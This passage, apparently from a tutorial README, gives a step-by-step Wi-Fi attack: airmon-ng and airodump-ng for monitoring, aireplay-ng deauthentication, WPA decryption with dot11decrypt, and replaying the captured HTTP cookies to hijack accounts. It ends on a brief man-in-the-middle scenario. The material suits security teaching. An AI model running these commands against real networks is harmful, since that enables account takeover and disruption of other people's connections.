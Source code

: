     ``` text
    airodump-ng <interface>
    ```

3. Select a WNIC and enter the BSSID in Wireshark.
   - If you think that packets don't capture well, you can use Airmon-ng, which stop network-manager in Linux. If you can't access the Internet, it's a success.

    ``` text
    airmon-ng check kill
    ```

   - In addition, it needs to match the channel of the targeted Access Point. The channel is shown from Airodump-ng.

    ``` text
    airmon-ng start <interface> <channel>
    ```

4. Work the Deauthentication Attack to the target.

    ``` text
    aireplay-ng <interface> --deauth <packet count> -a <AP MAC>
    ```

5. Execute dot11decrypt.

    ``` text
    ./dot11decrypt <interface> wpa:<ssid>:<password>
    ```

6. Enter the BSSID in Wireshark and search packets to have HTTP Cookies of target.
7. Move the target site and set cookies with a browser extension `EditThisCookie`.
   - Notice that the network-manager should be on.
   - i.e. copy & paste from the found packet to the site.
8. An attacker will get the account hijacking.
   - If you wonder about more detail, see the attached video.

### Others Scenario: Is it secure with SSL?

You'd remember what I referred to `Man-In-The-Middle Attack`.

In this case, an attacker intercepts https packets and sends a fake web page to a victim.

![15](./img/15.png?raw=true)
